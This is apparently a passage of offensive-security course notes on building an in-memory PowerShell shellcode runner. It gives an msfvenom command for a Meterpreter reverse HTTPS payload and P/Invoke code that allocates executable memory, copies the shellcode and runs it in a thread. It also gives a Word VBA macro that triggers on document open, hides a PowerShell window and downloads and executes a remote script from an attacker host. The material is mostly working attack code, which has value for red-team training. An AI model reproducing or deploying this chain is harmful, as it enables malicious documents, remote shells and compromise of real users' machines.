

## Building our Shellcode

We can now start building our shellcode same as before in the section [Creating Our Shellcode](../Document%20memory/Creating%20Our%20Shellcode.md), we use 3 Win32 APIs that are:
- VirtualAlloc
- RtlMoveMemory(In powershell we'll use copy method in _System.Runtime.InteropServices.Marshal_ namespace)
- CreateThread

First off, we use pinvoke to translate the arguments of VirtualAlloc and CreatThread

```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32
```

Next, we build our shellcode:
```msfvenom
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 EXITFUNC=thread -f ps1 -o memory_shellcode_powershell.ps1
```

We can now add our shell code to a variable called $buf.
Create another variable called $size that is the size of our $buf variable
And finally, call our functions.
```Powershell
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```
The arguments have already been explained in the [Creating Our Shellcode](../Document%20memory/Creating%20Our%20Shellcode.md) section.

Our final code will look something like so:
```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8.....0x0,0x53,0xff,0xd5

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```

This may get us a shell, but we need to trigger this from a word macro.
For this, we'll create a cradle that will download our code into memory and execute it.

The code for the cradle will look as follows:
```VBA
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.150/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

However, we're still not completely finished yet.
Essentially, with our current code, the powershell will terminate before it even starts, this is because our shell dies as soon as the parent Powershell proccess terminates.

To solve this, we will instruct Powershell to delay it's terminatin until the shell fully executes.
For this, we can use Win32 WaitSingleObject API to pause the script and allow meterpreter to finish.
We will now proceed to update our script using P/Invoke and invoke the declared function:

```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
	[DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
	
	[DllImport("kernel32.dll", SetLastError=true)] 
	public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8.....0x0,0x53,0xff,0xd5

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);

[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

With this, we have successfully created a shellcode in memory using Powershell:

